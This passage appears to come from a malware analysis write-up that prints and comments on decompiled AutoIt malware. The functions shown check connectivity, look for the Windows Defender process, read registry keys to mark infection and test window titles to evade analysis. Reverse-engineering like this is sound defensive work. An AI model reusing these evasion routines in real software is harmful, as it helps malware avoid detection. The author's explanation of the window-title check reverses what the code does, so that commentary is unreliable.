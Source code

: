 #### c) 3rd function: ping Google.com to check if internet available
<br> Now come to `main3`
```autoit
Func main3() ; Ping server
	$counter = 0
	While $counter = 0
		$counter = Ping("google.com") ; They ping google to check if network available :) - the old trick!
		Sleep(500)
	WEnd
	main4() ; Next!
EndFunc
```
<br> It Ping google to check if internet connection is available - the old trick
#### d) 4th function: Search for Windows Defender
<br> `main4`:
```autoit
Func main4() ; Search for Windows Defender
	Global $cghylztxnjb = ProcessExists("MsMpEng.exe") ; Searching for Windows Defender, and report to the server. See below
	main5()
EndFunc
```
<br> It checks if the process `MsMpEng.exe` available and report to the server. `MsMpEng.exe` is a part of Windows Defender.
#### e) 5th function: Check if the virus has activated before or not
<br> `main5`:
```autoit
Func main5()
	$vzmpkv = RegRead("HKCU\Software\Unzip", "Installed") ; Open registry key "HKCU\Software\Unzip" and read the value "Installed"
	Global $itbnnhl = RegRead("HKCU\Software\Unzip", "Trust")
	If $vzmpkv = "Yes" Then ; Check key
		found_unzip() ; Found Unzip
	Else
		$vzmpkv = "No" 
		notfound_unzip() ; Not found
	EndIf
EndFunc
```
<br> The virus write to the `HKCU\Software\Unzip` key with the value `Installed` and `Trust` to check if the virus has been activated or not
<br> If the value `unzip` not found, it jump to the function `notfound_unzip`:
#### f) 5.1 function: Check the window title name
```autoit
Func notfound_unzip()
	For $i = 1 To $lsrlgh[0] ; StringSplit("Start|cmd.exe|ProgramManager", "|")
		If StringInStr($wintitle, $lsrlgh[$i]) <> 0 Then
			ConsoleWrite("Exit:IsBannedWindow")
			Exit
		EndIf
	Next
	found_unzip() ; Why jump?
EndFunc
```
<br> From what I understand, it check if the Title of the script has the string 'Start', 'cmd.exe' or 'ProgramManager'. If it has none of them, it exits. I think it's a check if the script is vailded or not.
<br> If `unzip` key is found, or if it passed the function `notfound_unzip`, it jump to the function `found_unzip`: